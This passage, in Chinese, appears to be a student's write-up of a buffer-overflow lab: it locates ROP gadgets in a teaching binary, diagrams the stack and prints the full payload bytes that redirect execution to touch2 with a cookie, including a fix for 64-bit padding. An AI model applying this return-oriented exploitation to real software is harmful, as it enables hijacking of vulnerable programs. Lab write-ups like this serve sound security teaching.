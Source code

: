 结合上表，我们想要插入一个数字，肯定需要 `popq` 指令，对应下来就是 `58 - 5f` 这个范围，因为 ROP 的缘故，我们还需要后面有个 `c3`，经过搜索，可以看到在 `addval_104` 中，有一段 `58 c3`，也就是把栈中的值弹入到 `%rax` 中，记住这个地址 `0x401a24`。

现在我们要做的就是把存放在 `%rax` 的值放到 `%rdi` 中，因为这样才能当做参数传给 `touch2` 函数。根据表里的内容，继续找，这次的目标是 `48 89 c7`，也就是 `movq %rax, %rdi`，很幸运，又在 `getval_341` 中找到了，后面还正好跟了个 `c3`，赶紧记下这个地址 `0x401a2b`。

接下来我们就可以凑 ROP 程序了，下面是栈顶，上面是栈底。

```
0x00401860 (最后是 touch2 的入口地址，进行调用)
-------
0x00401a2b (把 %rax 的值放入到 %rdi 中，作为参数) -> gadget 2
-------
0x45374fee (我的 cookie，会被 gadget 1 存入到 %rax 中)
-------
0x00401a24 (旧的返回地址会被这里覆盖) -> gadget 1
-------
....
buf (缓冲区，这里随便写点啥都可以，反正都不能执行)
-------
```

构造出来的字符串就是（little-endian 规则，要反着看）

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
24 1a 40 00 ee 4f 37 45
2b 1a 40 00 60 18 40 00
```

然后转换成机器码 `./hex2raw < p4.txt > p4r.txt`，再执行 `./rtarget -i p4r.txt`

但是这样居然会遇到段错误，这是我万万没想到的，问题出在哪里呢？我尝试把这四条语句拆开来执行，发现第一句和第四句没问题，但是中间两句有问题。这说明了一个问题，就是某条语句的执行依赖于后面的语句，再联想到这是 64 位的机器，就明白了为什么会出现段错误了，应该在每个语句后面补 0，那么好，修正之后的字符串是

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
24 1a 40 00 00 00 00 00
ee 4f 37 45 00 00 00 00
2b 1a 40 00 00 00 00 00
60 18 40 00 00 00 00 00
```

再次进行测试，就可以发现任务完成：

![](/images/14554791646804.jpg)
